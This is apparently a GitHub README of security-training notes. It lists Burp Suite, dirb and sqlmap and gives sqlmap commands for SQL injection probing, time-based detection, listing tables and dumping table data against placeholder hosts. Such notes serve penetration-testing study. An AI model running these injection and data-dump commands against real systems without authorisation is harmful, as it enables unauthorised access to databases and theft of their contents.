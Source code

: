 # security-training

## Tools
- [Burp Suite](https://portswigger.net/burp/)
- [dirb](http://dirb.sourceforge.net/about.html) - Web Content Scanner
- [sqlmpa](http://sqlmap.org/) - Automatic SQL injection and database takeover tool


## Web Content Scanner tools
### dirb
```dirb [url_base] [world_list_file]```

## SQL injections attacks
### Basic sniff
```sqlmap -u http://hostname:port```

### Time-based sniff
```sqlmap -u http://hostname:port/index.php?title=lorem --technique=T```

### Get database tables
```sqlmap -u http://hostname:port --tables```

### Dump table data
```sqlmap -u http://hostname:port --dump -t [table] --threads 10```
